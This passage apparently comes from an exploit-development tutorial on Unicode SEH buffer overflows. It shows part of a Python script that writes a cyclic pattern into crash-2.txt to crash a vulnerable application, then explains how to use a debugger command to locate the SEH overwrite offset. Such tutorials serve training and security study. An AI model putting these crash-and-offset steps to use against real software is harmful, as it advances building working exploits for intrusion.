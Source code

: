 ```
41.	buf += b"5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4"  
42.	buf += b"Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3E"  
43.	buf += b"k4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En"  
44.	buf += b"3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2"  
45.	buf += b"Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1E"  
46.	buf += b"t2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew"  
47.	buf += b"1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0"  
48.	buf += b"Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9F"  
49.	buf += b"c0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe"  
50.	buf += b"9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8"  
51.	buf += b"Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7F"  
52.	buf += b"k8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn"  
53.	buf += b"7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6"  
54.	buf += b"Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5F"  
55.	buf += b"t6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw"  
56.	buf += b"5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4"  
57.	buf += b"Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3G"  
58.	buf += b"c4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf"  
59.	buf += b"3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2"  
60.	buf += b"Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"  
61.	  
62.	f.write(buf)  
63.	f.close() 

```

With this, if we now generate the crash-2.txt file and copy its contents into our vulnerable application, we will encounter a crash. We can now run the FindNRP command in order to identify how far through our buffer the SEH record was overwritten. Appended to the FindNRP command is the -Unicode switch. This switch specifies that the character encoding is UTF-16 (the Windows Unicode default). It only needs to be specified once per debugging session. As such, all further commands will be in Unicode (where applicable) until the debugger is restarted.
